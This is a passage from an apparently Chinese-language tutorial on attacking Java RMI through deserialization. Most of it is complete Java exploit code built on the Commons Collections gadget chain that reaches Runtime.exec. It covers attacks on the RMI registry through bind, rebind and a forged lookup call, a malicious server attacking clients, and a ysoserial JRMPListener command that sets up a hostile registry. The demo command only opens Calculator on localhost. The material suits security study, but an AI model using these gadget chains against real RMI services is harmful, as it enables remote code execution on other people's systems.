        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为hello的对象
        UserInterface userClass = (UserInterface) registry.lookup("user");
        // 调用远程对象hello的方法
        userClass.setUser(instance);
    }
}
```

运行服务端，接着运行客户端，成功执行弹出计算器的命令，完成 RCE


#### 攻击Registry

攻击 Registry 就是客户端利用与 RMI Registry 的几种交互方式进行攻击，不同与前面的攻击服务端可以直接对序列化数据进行反序列化，我们需要利用前面分析的几种能够利用的交互方式进行反序列化。

##### bind&rebind

根据我们前面在`RegistryImpl_Skel`类的源码分析得知，`bind()`方法与`rebind()`方法只对 String 和 Remote 类型对象进行反序列化，因此我们需要将我们的恶意对象从 Object 类型转换为 Remote 等符合条件的类型对象。转换方式可以通过动态代理完成。

服务端和前面保持一样，修改客户端--`RmiClient`
```java
package com.rmi.client;

import com.rmi.server.UserInterface;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        // 通过动态代理转换为Remote对象
        InvocationHandler invocationHandler = (InvocationHandler) instance;
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));

        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为hello的对象
        UserInterface userClass = (UserInterface) registry.lookup("user");
        // 调用Registry的交互方法bind
        registry.bind("rce", remote);
    }
}
```

运行服务端，接着运行客户端，成功执行弹出计算器的命令，完成 RCE


##### lookup&unbind

经过前面的分析，`lookup()`方法和`unbind()`方法只对 String 类型对象进行反序列化，我们可以通过伪造连接请求进行利用，也就是重写相关方法代码。

以`lookup()`方法为例，查看客户端调用的`RegistryImpl_Stub`类的`lookup()`方法源码
```java
public Remote lookup(String var1) throws AccessException, NotBoundException, RemoteException {
        try {
            RemoteCall var2 = super.ref.newCall(this, operations, 2, 4905912898345647071L);

            try {
                ObjectOutput var3 = var2.getOutputStream();
                var3.writeObject(var1);
            } catch (IOException var18) {
                throw new MarshalException("error marshalling arguments", var18);
            }

            super.ref.invoke(var2);

            Remote var23;
            try {
                ObjectInput var6 = var2.getInputStream();
                var23 = (Remote)var6.readObject();
            } catch (IOException var15) {
                throw new UnmarshalException("error unmarshalling return", var15);
            } catch (ClassNotFoundException var16) {
                throw new UnmarshalException("error unmarshalling return", var16);
            } finally {
                super.ref.done(var2);
            }

            return var23;
        } catch (RuntimeException var19) {
            throw var19;
        } catch (RemoteException var20) {
            throw var20;
        } catch (NotBoundException var21) {
            throw var21;
        } catch (Exception var22) {
            throw new UnexpectedException("undeclared checked exception", var22);
        }
    }
```

简化后关键的内容就是这几行：
```java
RemoteCall var2 = super.ref.newCall(this, operations, 2, 4905912898345647071L);
ObjectOutput var3 = var2.getOutputStream();
var3.writeObject(var1);
super.ref.invoke(var2);
```

那么我们只需要完成获取`ref`和`operations`的内容就可以完成一个`lookup()`方法的功能。

通过断点调试，可以很跟到`ref`是`RemoteObject`类的其中一个属性


当然也可以通过 IDEA 的图标清晰的得到`RegistryImpl_Stub`类的继承关系


接下来就是通过反射获取`ref`
```java
// 反射获取ref
Field ref_field = registry.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
ref_field.setAccessible(true);
UnicastRef ref = (UnicastRef)ref_field.get(registry);
```

`operations`的获取更容易，就在`RegistryImpl_Stub`的属性中


```java
// 反射获取operations
Field operations_field = registry.getClass().getDeclaredField("operations");
operations_field.setAccessible(true);
Operation[] operations =(Operation[]) operations_field.get(registry);
```

因此客户端 exp 为：
```java
package com.rmi.client;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        // 通过动态代理转换为Remote对象
        InvocationHandler invocationHandler = (InvocationHandler) instance;
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));

        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 反射获取ref
        Field ref_field = registry.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
        ref_field.setAccessible(true);
        UnicastRef ref = (UnicastRef)ref_field.get(registry);
        // 反射获取operations
        Field operations_field = registry.getClass().getDeclaredField("operations");
        operations_field.setAccessible(true);
        Operation[] operations =(Operation[]) operations_field.get(registry);
        // 伪造lookup方法
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(remote);
        ref.invoke(var2);
    }
}
```


#### 攻击客户端

##### 服务端攻击客户端

很容易理解，服务端返回客户端的结果如果是一个对象，会将该对象进行序列化传输，在客户端进行反序列化还原。因此如果服务端返回一个恶意对象，客户端正常连接时会造成反序列化攻击。

服务端--`UserClass`
```java
package com.rmi.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/3 17:14
 */
public class UserClass extends UnicastRemoteObject implements UserInterface {

    protected UserClass() throws RemoteException {
    }

    @Override
    public Object getUser() throws Exception{
        System.out.println("调用getUser方法成功");
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        return instance;
    }

    @Override
    public void setUser(Object user) throws Exception {
        System.out.println("调用setUser方法成功");
    }
}
```

服务端--`RmiServer`
```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/3 17:13
 */
public class RmiServer {
    public static void main(String[] args) throws RemoteException {
        // 创建远程对象
        UserInterface userClass = new UserClass();
        // 创建RMI Registry(注册表)
        Registry registry = LocateRegistry.createRegistry(1099);
        // 将远程对象注册到注册表,设置名称
        registry.rebind("user", userClass);
        System.out.println("RMI Server start...");
    }
}
```

客户端--`RmiClient`
```java
package com.rmi.client;

import com.rmi.server.UserInterface;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为user的对象
        UserInterface userClass = (UserInterface) registry.lookup("user");
        // 调用远程对象user的方法
        userClass.getUser();
    }
}
```

运行恶意服务端后，客户端正常发起连接，造成反序列化攻击，完成 RCE


##### Registry攻击客户端

如果有兴趣，可以尝试分析一下 JRMP 协议，如果分析过该协议下的传输流量，会发现客户端与服务端的连接过程中， RMI Registry 会返回一些序列化数据到客户端上，因此如果能够构造一个恶意的 RMI Registry 来模拟 JRMP 通信，返回恶意序列化数据到客户端上，客户端进行反序列化就会造成反序列化攻击。

经过测试，通过`list()`、`bind()`和`lookup()`三种方法都能返回序列化数据到客户端上，这里我们使用 ysoserial 的`JRMPListener`模块帮我们搭建一个恶意的 RMI Registry
```java
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'open -a Calculator.app'
```


然后客户端正常连接，执行和 RMI Registry 的交互方法
```java
package com.rmi.client;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```


完成反序列化攻击
